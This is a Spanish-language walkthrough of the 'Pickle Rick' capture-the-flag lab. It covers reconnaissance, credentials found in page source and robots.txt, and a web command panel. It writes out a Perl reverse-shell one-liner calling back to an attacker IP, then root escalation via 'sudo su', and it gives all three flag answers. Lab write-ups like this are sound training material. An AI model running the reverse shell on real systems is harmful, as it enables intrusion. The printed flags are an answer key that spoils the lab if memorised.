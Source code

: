 ### Pickle Rick

Primero realizamos un escaneo de puertos con **Nmap** para visualizar que servicios tiene corriendo dentro de la máquina de tal manera recopilamos información para posteriormente evaluar las vulnerabilidades y tratar de explotarlas.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/nmap.png)


Vemos un puerto interesante y es el 80, el cual significa que esta alojado un servidor web en dicho puerto, accedemos a la direccion ip de la maquinas desde el navegador para revisar si existe alguna pagina web.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/pagina%20web.png)

Revisamos que hay una pagina web, ahora debemos revisar el codigo fuente de la pagina y ver si podemos encontrar algo.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/codigo%20fuente.png)

Podemos encontrar un nombre de usuario dentro de la pagina web, el cual es el siguiente:

      Username: R1ckRul3s

Ahora realizamos un ataque de fuerza bruta para descubrir los directorios ocultos dentro del servidor de pagina web.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/gobuster.png)

Encontramos un archivo muy importante que la mayoria de los servidores web tienen, dicho archivo es llamado "**robots.txt**" el cual contiene las rutas no indexadas de la pagina web, ahora vamos a leer el archivo y visualizar que contiene adentro.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/robots.png)

Podemos observar que contiene una palabra muy peculiar, la cual debemos guardar ya que posiblemente pueda tratarse de una contraseña.

      	Wubbalubbadubdub

Ahora volvemos a realizar el descubrimiento de directorios y podemos observar que existe un archivo llamado "**login.php**".

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/login.png)

 Accedemos a ese directorio.
 
 ![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/portal%20login.png)

Ingresamos las posibles credenciales que hemos encontrado:

      	R1ckRul3s
      	Wubbalubbadubdub

Al intentar ingresar las posibles credenciales nos da un login exitoso, visualizamos una pagina que parece ser una especie pagina para ejecutar comandos dentro de la maquina.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/page%20commands.png)

 Intentamos ejecutar un comando simple como "**ls**".
 
 ![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/ls.png)
 
Vemos que si se ejecuto de manera exitosa el comando, visualizamos una lista de archivos el cual nos interesa uno llamado "**Sup3rS3cretPickl3Ingred.txt**", intentamos leer su contenido.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/cat%20Sup3rS3cretPickl3Ingred.txt.png)

Nos salta un error ya que el comando "**cat**" esta deshabilitado para el servidor remoto, intentemos leer el archivo con otro comando de lectura llamado "**strings**".

     	strings Sup3rS3cretPickl3Ingred.txt

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/strings%20Sup3rS3cretPickl3Ingred.txt.png)

#### What is the first ingredient Rick needs?
mr. meeseek hair

Una vez visualizando que podemos ejecutar comandos de linux podemos deducir que es posible escribir una "**Reverse Shell**" para poder acceder al servidor directamente.

      	perl -e 'use Socket;$i="10.9.5.12";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Antes de ejecutar la "Reverse Shell", debemos poner a la escucha "**netcat**".

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/netcat.png)

##### ¡Estamos dentro!
Ahora ejecutamos el comando de "**whoami**".

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/whoami.png)

# Shell Upgrading

Para trabajar mas comodo vamos a realizar una "Shell Upgrading", ejecutamos lo siguiente en la terminal:

    	/usr/bin/script -qc /bin/bash /dev/null

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/shell%20upgrading.png)

Una vez realizando la actualizacion de la shell, buscamos la segunda bandera, **siempre debemos buscar dentro de las carpetas de /home/**.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/home-ls.png)

Nos aparece dos carpetas, accedemos a la carpeta llamada "**rick**" y ejecutamos el comando "**ls**" y vemos un archivo llamado "**second ingredients**" y obtenemos la segunda bandera.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/second%20secret.png)

#### Whats the second ingredient Rick needs?
1 jerry tear

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/cat%20second%20ingredients.png)

#Privilege Escalation
Debemos encontrar algun script que tenga permisos de ejecucion root para poder aprovecharnos de el, en linux se les conoce como "**SUID Binaries**", para poder encontrar dichos archivos debemos ejecutar lo siguiente:

    	find / -perm -4000 2>/dev/null
Nos aparecera lo siguiente:

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/suid%20su.png)

El binario que nos importa es uno llamado "**/bin/su**", para verificar que como se puede explotar, vamos a consultar la pagina [GTFOBins](https://gtfobins.github.io/) y buscamos el binario "**su**".

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/su.png)

Ahora escribimos el resultado que nos mostro **GTFOBins** para escalar privilegios:

    	sudo su

### ¡Ahora tu servidor es mío!
Hemos escalado privilegios, para confirmar que efectivamente fue asi, ejecutamos "**whoami**".

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/root.png)

Cambiamos a la carpeta de "**/root**" y revisamos su contenido de dicha carpeta.

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/cd%20root.png)

podemos encontrar la ultima bandera que nos falta, leemos el archivo "**3rd.txt**".

#### Whats the final ingredient Rick needs?
3rd ingredients: fleeb juice

![](https://github.com/Mr-r00t11/CTF-Walkthrough/blob/main/Pickle%20Rick/src/cat%203rd%20ingredients:%20fleeb%20juice.png)

Hemos finalizado el reto hasta llegar a ser **owner** del servidor.
